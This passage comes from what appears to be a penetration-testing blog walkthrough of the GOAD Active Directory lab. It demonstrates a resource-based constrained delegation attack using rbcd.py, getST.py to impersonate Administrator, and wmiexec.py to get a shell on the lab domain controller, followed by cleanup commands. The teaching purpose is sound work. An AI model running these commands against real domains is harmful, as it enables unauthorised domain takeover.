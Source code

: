 - Add delegation write on our target from X (rbcd$)

```bash
rbcd.py -delegate-from 'rbcd$' -delegate-to 'kingslanding$' -dc-ip 'kingslanding.sevenkingdoms.local' -action 'write' sevenkingdoms.local/stannis.baratheon:Drag0nst0ne
```

- Now X (rbcd$) got delegation permission on our target, you can now do an s4u2self query followed by an S4u2proxy.
- This will result in an administrator permission on kingslanding.

```bash
getST.py -spn 'cifs/kingslanding.sevenkingdoms.local' -impersonate Administrator -dc-ip 'kingslanding.sevenkingdoms.local' 'sevenkingdoms.local/rbcd$:rbcdpass'

export KRB5CCNAME=/workspace/rbcd/Administrator@cifs_kingslanding.sevenkingdoms.local@SEVENKINGDOMS.LOCAL.ccache
wmiexec.py -k -no-pass @kingslanding.sevenkingdoms.local
```

![deleg_rbcd_exploit.png](/assets/blog/GOAD/deleg_rbcd_exploit.png)

- After the exploit a little clean up of the lab, flush the rbcd entry and delete the computer account with a domain admin:

```bash
rbcd.py -delegate-from 'rbcd$' -delegate-to 'kingslanding$' -dc-ip 'kingslanding.sevenkingdoms.local' -action 'flush' sevenkingdoms.local/stannis.baratheon:Drag0nst0ne
addcomputer.py -computer-name 'rbcd$' -computer-pass 'rbcdpass' -dc-host kingslanding.sevenkingdoms.local 'sevenkingdoms.local/cersei.lannister:il0vejaime' -delete
```


## Ressources - go further

- [https://www.thehacker.recipes/ad/movement/kerberos/delegations](https://www.thehacker.recipes/ad/movement/kerberos/delegations)
- [https://www.notsoshant.io/blog/attacking-kerberos-constrained-delegation/](https://www.notsoshant.io/blog/attacking-kerberos-constrained-delegation/)
- [https://sensepost.com/blog/2020/chaining-multiple-techniques-and-tools-for-domain-takeover-using-rbcd/](https://sensepost.com/blog/2020/chaining-multiple-techniques-and-tools-for-domain-takeover-using-rbcd/)
- [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse)
- [https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/delegation-abuse](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/delegation-abuse)
- And i recommend you to take a look at charlie's talk about delegation : [https://www.thehacker.recipes/ad/movement/kerberos/delegations#talk](https://www.thehacker.recipes/ad/movement/kerberos/delegations#talk)


Next time we will have fun with ACL : : ([Goad pwning part11]({% link _posts/2022-12-07-GOADv2-pwning-part11.md %})) :)